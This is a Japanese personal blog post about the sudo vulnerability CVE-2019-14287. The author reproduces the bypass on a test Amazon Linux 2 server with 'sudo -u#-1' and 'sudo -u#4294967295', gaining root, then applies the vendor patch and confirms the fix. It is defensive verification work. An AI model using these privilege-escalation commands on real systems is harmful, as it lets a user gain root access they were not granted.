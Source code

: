 +++
title = "sudo コマンドの脆弱性 CVE-2019-14287 メモ"
tags = ["linux"]
categories = ["SE"]
date = "2019-10-15"
description = "なかなかお手軽に OS の root 権限を取得できてしまう脆弱性が報告されてので調べておく"
menu = ""
banner = "banners/bunner_tech.jpg"
images = []
+++

<!--more-->

## ニュース情報
情報が出始めたのは15日朝くらいからかな  

Engadget JP  
<div class="iframely-embed"><div class="iframely-responsive" style="height: 140px; padding-bottom: 0;"><a href="https://japanese.engadget.com/2019/10/14/linux-sudo-root-id/" data-iframely-url="//cdn.iframe.ly/VX58TN6"></a></div></div><script async src="//cdn.iframe.ly/embed.js" charset="utf-8"></script>  

SIOS  
<div class="iframely-embed"><div class="iframely-responsive" style="height: 140px; padding-bottom: 0;"><a href="https://security.sios.com/vulnerability/sudo-security-vulnerability-20191015.html" data-iframely-url="//cdn.iframe.ly/6nz8XVr?iframe=card-small"></a></div></div><script async src="//cdn.iframe.ly/embed.js" charset="utf-8"></script>

Redhat  
<i class="fas fa-external-link-alt"></i> [CVE-2019-14287](https://access.redhat.com/security/cve/CVE-2019-14287)  

AWS  
<i class="fas fa-external-link-alt"></i> [ALAS-2019-1309](https://alas.aws.amazon.com/ALAS-2019-1309.html)  

## 内容  
脆弱性を利用するには ユーザーが任意のユーザーIDでコマンドを実行できるsudo特権を持っている必要があり、ユーザーのsudoersエントリのRunas指定子に特別な値ALLがある必要がある  
Redhatのサイトを見る限り脆弱性の影響を受ける Redhat系OS は 6～8 、サポートする全てだ  
またサイトを見る限りはまだ15日 21時現在では パッチアップデートは出てないのかな？  
AWSはアップデートパッケージ出してるからもうすぐ出るか、サイトに書いてないだけで出てるかも  

マルチテナント、ホスティングとかでサーバを提供しているサービス会社はすぐアップデートしたほうがいいですね  
特にサービス停止とか必要そうなアップデート作業でもなさそうだし  

ただ結構 sudo の書式も含めて本脆弱性に該当しそうな環境って意外と少ないんじゃないかと思ってる  
root も含めて全部許可か、 特定のユーザー権限のみ許可とかそういう記述が多いんじゃなかろうか  
とわいえ複数社、複数担当がOSにログインする、それらを sudo で細かく権限制御している、とかであればとりあえず充てとこう  

### 確認
SIOSのサイトを参考に本当にできるのか見てみる  

sudo ALL権限を持つユーザーを作成  

```
# cat /etc/sudoers.d/testgrp
%test ALL=(ALL, !root) ALL

# id test
uid=10003(test) gid=10003(test) groups=10003(test)
```

sudo コマンドのバージョン確認  

```
$ rpm -qa |grep sudo
sudo-1.8.19p2-14.amzn2.x86_64
```

`-1` ユーザー ID を指定してコマンドを実行してみる  
権限的には見れないログファイルも。。。。  

```
$ sudo tail /var/log/messages
[sudo] test のパスワード:
ユーザー test は'/bin/tail /var/log/messages' を root として localhost 上で実行することは許可されていません。すみません 。

$ sudo -u#-1 tail /var/log/messages
[sudo] test のパスワード:
Oct 15 21:30:43 localhost freshclam[8559]: ClamAV update process started at Tue Oct 15 21:30:43 2019
```

見れた！すげー！！  

```
$ sudo -u#-1 id -u
[sudo] test のパスワード:
0

$ sudo -u#4294967295 id -u
[sudo] test のパスワード:
0

$ sudo -u#-1 id -g
[sudo] test のパスワード:
10003
```

ユーザーID はたしかに `0` になってる。グループはそのままだったけど  

### パッチアップデート  
AWSはパッチ出たみたいなので充ててみる  

```
# yum update sudo
========================================================================================================================
 Package               アーキテクチャー        バージョン                             リポジトリー                 容量
========================================================================================================================
更新します:
 sudo                  x86_64                  1.8.23-4.amzn2.0.1                     amzn2-core                  844 k

トランザクションの要約
========================================================================================================================
更新  1 パッケージ
```

アップデート後修正されているか確認  

```
$ sudo -u#-1 tail /var/log/messages
sudo: 不明なユーザーです: #-1
sudo: ポリシープラグインを初期化できません
```

なおった～  
おしまい  

{{< rawhtml >}}
<div style="border: dashed 1px #ccc;">
<a href="http://www.amazon.co.jp/exec/obidos/ASIN/4774184268/sinokyoufu-22/ref=nosim/" name="amazletlink" target="_blank"><img src="https://images-fe.ssl-images-amazon.com/images/I/61%2BvBxCb0zL._SL160_.jpg" alt="[改訂新版]プロのためのLinuxシステム構築・運用技術 (Software Design plus)" style="border: none;" /></a>
</div>
{{< /rawhtml >}}
